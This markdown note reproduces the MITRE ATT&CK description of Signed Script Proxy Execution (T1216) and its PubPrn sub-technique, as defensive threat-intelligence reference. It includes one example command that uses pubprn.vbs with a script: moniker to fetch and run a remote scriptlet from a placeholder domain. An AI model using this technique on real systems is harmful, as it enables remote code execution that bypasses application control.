 Tactics: [[DEFENSE_EVASION]]
Tags: #mitre/attack/techniques/T1216  

# Signed Script Proxy Execution - T1216
---
## Description
[more on T1216](https://attack.mitre.org/techniques/T1216)

Adversaries may use scripts signed with trusted certificates to proxy execution of malicious files. Several Microsoft signed scripts that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application control and signature validation on systems.[1](https://github.com/api0cradle/UltimateAppLockerByPassList)

---
## Sub-Techniques

#### PubPrn - T1216.001
[more on T1216.001](https://attack.mitre.org/techniques/T1216/001)

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [[T1059_Command and Scripting Interpreter#Visual Basic - T1059 005|Visual Basic (T1059.005)]] script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and is commonly executed through the [[T1059_Command and Scripting Interpreter#Windows Command Shell - T1059 003|Windows Command Shell (T1059.003)]] via `Cscript.exe`. For example, the following code publishes a printer within the specified domain: `cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com` .[1](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.[2](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/) To do so, adversaries may set the second `script:` parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is `pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct`. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), `PubPrn.vbs` has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to `LDAP://`, vice the `script:` moniker which could be used to reference remote code via HTTP(S).



